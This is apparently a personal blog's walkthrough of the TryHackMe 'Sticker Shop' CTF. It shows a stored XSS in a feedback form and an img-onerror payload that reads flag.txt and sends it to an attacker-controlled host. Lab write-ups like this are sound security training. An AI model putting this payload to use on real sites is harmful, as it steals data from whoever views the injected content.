 ```yaml
---
title: "THM Sticker Shop CTF Write-Up"
date: 2025-01-05 13:20:00 +0000
categories: [Write-up]
tags: [ctf, write-up, sticker shop]
description: A detailed write-up for Sticker Shop, a machine from TryHackMe.
image:
    path: assets/images/post-05-01-25/sticker-shop.png
    alt: Sticker Shop
---
```


Sticker Shop is an easy CTF hosted on Tryhackme. This is one of the easiest machines I\'ve done and in this write-up, I am going to give you a detailed guide on how to \'pwn\' it as well.

When I first started the machine, I noticed it had some instructions.

## Starting the Machine

![Machine's start page](assets/images/post-05-01-25/task.png)

From the instructions, I already know the machine has a web server running at port 8080. It also gives clear instructions on where the flag can be found.

With any other machine, I would have first started off with an Nmap scan but in this case it\'s not relevant. I went straight to the webpage specified in the instructions.

![Flag page](../assets/images/post-05-01-25/unauthorized.png)

Upon reaching the webpage I received a 401 (Unauthorized) error so I knew I had to try another way. I navigated to the main web page ie, the root directory.

![Homepage](../assets/images/post-05-01-25/homepage.png)

I then checked the source code for the webpage to see if I could find anything interesting, unfortunately I did not.

I then moved to the feedback page.

![Feedback page](../assets/images/post-05-01-25/feedback-page.png)

This seems like a simple form that takes feedback and sends it somewhere. I left a random feedback saying \"I like you stickers\" just to observe how the application will respond.

![Message from Feedback Page](../assets/images/post-05-01-25/message.png)

I received an interesting response after I submitted my feedback. It says the feedback will be evaluated by staff. Here, I had the idea that the feedback field might be vulnerable to injection attacks (XSS).

## Testing for Command Injection Attacks

To test this, I started a simple web server on my Kali using python

```bash
python3 -m http.server <YOUR_PORT>
```

![Python web server](../assets/images/post-05-01-25/python-webserver.png)

In the feedback form I tried to get the webserver to make a GET request to the webserver I just set up. If I do get a GET request made to my python webserver I will know that the Feedback form is vulnerable to injection attacks.

![Testing for XSS](../assets/images/post-05-01-25/sample-image.png)

Going back to the terminal where I have the python webserver running, I can see that there was a GET request made to the webserver! This proves the Feedback form is vulnerable

![Response](../assets/images/post-05-01-25/pic-callback.png)

## Crafting the Payload

Now, this is the part I found most difficult. Crafting a JavaScript payload that would read the contents of the flag file and then send it over to my Kali machine. I have some basic knowledge of JS and it\'s syntax but I was not able to successfully do this.

I searched online and found this code that worked for me.

```js
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://<YOUR_IP>:<YOUR_PORT>/?f=' + r))"/>
```

Basically what the code above does is;

- It tries to load an image that doesn\'t exist hence executing the onerror() function.
- From the onerror function, it gets the text contents of the flag.txt file
- And then it makes a request to our python webserver passing the contents of the flag.txt file as an argument (f).

Going back to the terminal, I successfully received the contents of the flag.txt file. Notice the flag is passed an an argument when the GET request was made.

![Flag](../assets/images/post-05-01-25/flag.png)

That's it. There are lots of other ways this flag could be obtained by this is what I went with according to my skills and knowledge.

I hope you found this guide helpful and easy to understand. That will be all for this one, till we meet again! :-)
